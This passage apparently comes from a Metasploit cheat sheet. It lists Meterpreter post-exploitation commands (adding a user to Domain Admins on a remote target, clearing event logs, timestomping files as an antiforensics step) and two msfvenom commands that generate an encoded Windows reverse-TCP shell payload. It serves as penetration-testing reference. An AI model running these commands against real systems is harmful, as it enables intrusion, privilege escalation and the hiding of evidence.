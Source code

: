 | add\_group\_user <"Domain Admins"> \<username> -h \<ip> | Add a username to the Domain Administrators group on the remote target.                       |
| clearev                                                 | Clear the event log on the target machine.                                                    |
| timestomp                                               | Change file attributes, such as creation date (antiforensics measure).                        |
| reboot                                                  | Reboot the target machine.                                                                    |

### MsfVenom

| Command                                                                                                                               | Description                           |
| ------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------- |
| msfvenom -a x86 --platform windows -p windows/shell/reverse\_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata\_ga\_nai | Generating Payload - With Encoding    |
| msfvenom -a x86 --platform windows -p windows/shell/reverse\_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl                         | Generating Payload - Without Encoding |
